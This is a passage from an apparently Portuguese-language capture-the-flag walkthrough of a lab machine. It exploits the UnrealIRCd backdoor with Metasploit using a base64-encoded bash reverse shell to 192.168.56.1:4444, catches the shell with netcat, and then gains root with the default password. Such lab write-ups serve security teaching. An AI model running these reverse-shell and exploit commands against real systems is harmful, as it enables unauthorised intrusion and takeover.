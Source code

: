 Agora que tenho base64, envio o comando decodando:



```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set CMD "echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvNDQ0NCAwPiYxCg==' | base64 -d | bash"
CMD => echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvNDQ0NCAwPiYxCg==' | base64 -d | bash
```



Agora, executo o exploit:

```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit
[*] 192.168.56.13:6667 - Connected to 192.168.56.13:6667...

```

Vou ver se o netcat recebeu a conexão:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444             
listening on [any] 4444 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.13] 54434
bash: cannot set terminal process group (329): Inappropriate ioctl for device
bash: no job control in this shell
server@noontide:~/irc/Unreal3.2$
```

Maravilha! Obtive acesso à máquina. Vou ver qual usuário tá logado:

```bash
server@noontide:~/irc/Unreal3.2$ whoami
whoami
server

```

Estamos com um usuário que não é root e tentaremos escalar privilégio agora.

# Escalação de privilégio

Vou tentar, como quem não quer nada, obter o root digitando a senha padrão root. (Muito improvável em um cenário real)



```bash
server@noontide:~/irc/Unreal3.2$ su
su
Password: root
```

Estamos como root:

```bash
whoami
root

```
